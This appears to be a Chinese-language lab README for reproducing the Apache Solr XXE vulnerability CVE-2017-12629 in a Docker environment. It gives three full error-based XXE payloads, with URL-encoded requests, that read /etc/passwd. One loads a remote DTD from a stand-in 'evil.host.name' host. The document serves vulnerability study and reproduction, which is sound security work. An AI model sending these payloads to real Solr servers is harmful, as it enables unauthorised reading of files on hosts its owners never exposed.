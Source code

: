 # Apache Solr XML 外部实体注入漏洞（CVE-2017-12629）

Apache Solr 是一个开源的搜索服务器。它使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。在 7.1.0 版本之前，发现了两个漏洞：XML 外部实体注入（XXE）和远程命令执行（RCE），这两个漏洞的编号均为 CVE-2017-12629。这两个漏洞可以连接成利用链。

本环境演示 XXE 漏洞。关于 RCE 漏洞和利用链的演示，请参考 [CVE-2017-12629-RCE](../CVE-2017-12629-RCE/)。

参考链接：

- <https://www.exploit-db.com/exploits/43009/>
- <https://paper.seebug.org/425/>

## 环境搭建

执行如下命令启动 Apache Solr 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8983/` 即可看到 Apache Solr 的管理页面，无需登录。

## 漏洞复现

由于返回包中不包含我们传入的 XML 中的信息，所以这是一个 Blind XXE 漏洞。但我们可以利用 [Error Based XXE](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/) 来读取文件。

要利用 Error Based XXE，需要找到合适的 DTD 文件。这里提供几个思路：

### 使用 fontconfig-config 中的 fonts.dtd

openjdk 的 Docker 镜像安装了 fontconfig-config，其中包含一个符合要求的 DTD 文件：`/usr/share/xml/fontconfig/fonts.dtd`。

构造 XXE Payload：

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

将编码后的 payload 放在如下请求中发送：

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22file%3A%2F%2F%2Fusr%2Fshare%2Fxml%2Ffontconfig%2Ffonts%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20expr%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

可见，成功读取到了 `/etc/passwd` 文件：

![](1.png)

### 使用 JAR 包中的 DTD 文件

由于是黑盒测试，我们无法预测目标服务器安装了哪些软件，使用软件内部的 DTD 文件是一个更好的方法。比如可以使用 Solr 依赖的 lucene-queryparser.jar 中的 LuceneCoreQuery.dtd。

构造 XXE Payload：

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "jar:file:///opt/solr/server/solr-webapp/webapp/WEB-INF/lib/lucene-queryparser-7.0.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

将编码后的 payload 放在如下请求中发送：

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22jar%3Afile%3A%2F%2F%2Fopt%2Fsolr%2Fserver%2Fsolr%2Dwebapp%2Fwebapp%2FWEB%2DINF%2Flib%2Flucene%2Dqueryparser%2D7%2E0%2E1%2Ejar%21%2Forg%2Fapache%2Flucene%2Fqueryparser%2Fxml%2FLuceneCoreQuery%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20queries%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

可见，成功读取到了 `/etc/passwd` 文件：

![](2.png)

### 使用远程 DTD 文件

如果我们在目标服务器上找不到合适的本地 DTD 文件，且服务器可以连接外网，也可以使用远程 DTD 文件。

在 HTTP 服务器上部署一个 DTD 文件：

```xml
<!ENTITY % test "example">
<!ELEMENT pattern (%test;)>
```

然后构造 XXE Payload：

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "http://evil.host.name/include.dtd">

    <!ENTITY % test 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

将编码后的 payload 放在如下请求中发送：

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22https%3A%2F%2Fgist%2Egithubusercontent%2Ecom%2Fphith0n%2F188f03ac0f3c5d899895268f05fd0a51%2Fraw%2F7b481b122622d77c49c619fa047a52051f9652d8%2Finclude%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20test%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

可见，成功读取到了 `/etc/passwd` 文件：

![](3.png)
